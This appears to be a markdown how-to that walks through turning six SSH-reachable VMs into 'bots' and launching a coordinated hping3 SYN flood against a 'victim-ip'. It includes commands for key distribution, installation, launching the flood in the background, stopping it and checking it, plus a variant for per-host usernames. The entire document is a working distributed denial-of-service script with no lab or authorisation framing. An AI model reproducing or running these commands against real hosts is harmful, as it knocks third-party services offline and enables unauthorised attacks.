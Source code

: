 
---

1. **Generate SSH key on control VM (if not done):**

```bash
ssh-keygen -t rsa -b 2048 -f ~/.ssh/id_rsa -N ""
```

2. **Copy SSH key to each VM (replace user and IPs):**

```bash
ssh-copy-id user@vm1-ip
ssh-copy-id user@vm2-ip
ssh-copy-id user@vm3-ip
ssh-copy-id user@vm4-ip
ssh-copy-id user@vm5-ip
ssh-copy-id user@vm6-ip
```

3. **Install hping3 on all VMs (run once per VM):**

```bash
ssh user@vm1-ip 'sudo apt-get update && sudo apt-get install -y hping3'
ssh user@vm2-ip 'sudo apt-get update && sudo apt-get install -y hping3'
ssh user@vm3-ip 'sudo apt-get update && sudo apt-get install -y hping3'
ssh user@vm4-ip 'sudo apt-get update && sudo apt-get install -y hping3'
ssh user@vm5-ip 'sudo apt-get update && sudo apt-get install -y hping3'
ssh user@vm6-ip 'sudo apt-get update && sudo apt-get install -y hping3'
```

4. **Prepare a bash one-liner to start hping3 DoS simultaneously from control VM:**

Create a file `vms.txt` listing IPs of all bots:

```
vm1-ip
vm2-ip
vm3-ip
vm4-ip
vm5-ip
vm6-ip
```

5. **Run simultaneous DoS from all bots:**

```bash
target_ip="victim-ip"
for ip in $(cat vms.txt); do
  ssh user@$ip "nohup sudo hping3 -S --flood $target_ip > /dev/null 2>&1 &"
done
```

6. **To stop all attacks:**

```bash
for ip in $(cat vms.txt); do
  ssh user@$ip "sudo pkill hping3"
done
```

7. **Check if hping3 is running on bots:**

```bash
for ip in $(cat vms.txt); do
  ssh user@$ip "pgrep hping3 && echo 'Running on $ip' || echo 'Not running on $ip'"
done
```

8. **Optional: Handling Different Usernames per VM**

If the VMs use different usernames, listing only IP addresses in `vms.txt` is insufficient. Instead, each entry should include the username and IP address in the format:

```
user1@vm1-ip
user2@vm2-ip
user3@vm3-ip
user4@vm4-ip
user5@vm5-ip
user6@vm6-ip
```

This approach explicitly specifies the SSH login for each VM.

---

### Updated commands using `user@ip` entries in `vms.txt`

**Copy SSH keys to all VMs:**

```bash
while read -r user_host; do
  ssh-copy-id "$user_host"
done < vms.txt
```

---

**Install hping3 on all VMs:**

```bash
while read -r user_host; do
  ssh "$user_host" 'sudo apt-get update && sudo apt-get install -y hping3'
done < vms.txt
```

---

**Run simultaneous DoS attack from all bots:**

```bash
target_ip="victim-ip"
while read -r user_host; do
  ssh "$user_host" "nohup sudo hping3 -S --flood $target_ip > /dev/null 2>&1 &"
done < vms.txt
```

---

**Stop all attacks:**

```bash
while read -r user_host; do
  ssh "$user_host" "sudo pkill hping3"
done < vms.txt
```

---

**Check if hping3 is running on bots:**

```bash
while read -r user_host; do
  ssh "$user_host" "pgrep hping3 && echo 'Running on $user_host' || echo 'Not running on $user_host'"
done < vms.txt
```

---

### Notes

* Using `while read -r` ensures each line is read correctly, even if usernames or IP addresses contain special characters.
* Including usernames with IP addresses enables management of VMs with different login accounts without modifying the scripts.
* Ensure SSH keys are properly copied for each `user@ip` entry to enable passwordless access.

---
